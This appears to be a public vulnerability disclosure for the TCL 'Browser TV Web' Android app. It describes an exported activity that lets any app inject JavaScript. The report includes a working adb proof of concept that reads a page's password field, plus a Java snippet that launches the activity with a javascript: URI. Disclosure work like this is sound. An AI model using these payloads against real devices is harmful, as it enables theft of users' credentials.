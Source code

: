 
![image](https://github.com/actuator/com.tcl.browser/assets/78701239/82062ff5-9806-499b-85ed-68cb3594e8ae)



## Vulnerability Report

### Overview:
A Remote Code Execution (RCE) vulnerability has been discovered in the `com.tcl.browser` application on the Android platform. The vulnerability allows an attacker to execute arbitrary JavsScript code within the context of the application without any permissions.

### Application Details:

- **Vendor:** - Shenzhen TCL New Technology Co., Limited
- **Application Name:** 'Browser TV Web - BrowseHere' com.tcl.browser
- **Version:** 6.49.059_a62ef28f_230730_gp
- **Component:** com.tcl.browser.portal.browse.activity.BrowsePageActivity

### Vulnerability Details:

- **Vulnerability Type:** Remote Code Execution (RCE)
- **Attack Vector:** Via an exported activity component
- **Permissions Required:** None

### Description:

The `com.tcl.browser.portal.browse.activity.BrowsePageActivity` activity in the `com.tcl.browser` app is exported and can be invoked by any third-party application without requiring any permissions. A malicious app can exploit this to execute arbitrary JavaScript code within the context of the `com.tcl.browser` application.

This vulnerability is particularly concerning because:
- The victim does not need to grant any special permissions to any installed applications.
- The attack can be initiated remotely.

### Proof of Concept (PoC):


![image](https://github.com/actuator/com.tcl.browser/blob/main/poc.gif)

This ADB command injects JavaScript to extract password data & can be  accomplished without ADB with no permissions.

```bash
adb shell am start -a android.intent.action.VIEW -d 'javascript:(function()%7Bvar%20password%20%3D%20document.getElementById(%27pass%27).value%3Balert(%27Password%3A%20%27%20%2B%20password)%3B%7D)()' com.tcl.browser/com.tcl.browser.portal.browse.activity.BrowsePageActivity
```

![image](https://github.com/actuator/com.tcl.browser/blob/main/Facebook.gif)



![poc](https://github.com/actuator/com.tcl.browser/assets/78701239/15b32aff-92ac-41f2-9d48-4ae5a04ce354)

To demonstrate the vulnerability, one can create a simple Android app that invokes the exported `BrowsePageActivity` activity:


    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        // Create the intent to start the BrowsePageActivity of com.tcl.browser app
        Intent intent = new Intent(Intent.ACTION_VIEW);
        intent.setComponent(new ComponentName("com.tcl.browser", "com.tcl.browser.portal.browse.activity.BrowsePageActivity"));

        // Set the URL data you want to pass (for example "http://www.example.com")
        intent.setData(Uri.parse("http://www.example.com"));
        // OR intent.setData(Uri.parse("javascript:alert('...');"));

        // Start the activity
        startActivity(intent);
        finish();
    }



### Impact:

Successful exploitation allows an attacker to:
- Execute arbitrary JavaScript code within the context of the `com.tcl.browser` app.
- Perform any action that the `com.tcl.browser` app can do, potentially leading to further device exploitation or data theft.



The enabled 'settings.setDomStorageEnabled(true)' value in the app's WebView allows for the use of the Web Storage API.

Risks include:

Credential harvesting if websites store sensitive data.
Manipulating or flooding stored values.
Assisting in malicious persistence.

### Mitigation and Recommendations:

1. **Restrict Activity Export:** Do not export activities unless necessary.
If required, implement proper authorization checks to ensure that only legitimate entities can invoke it.


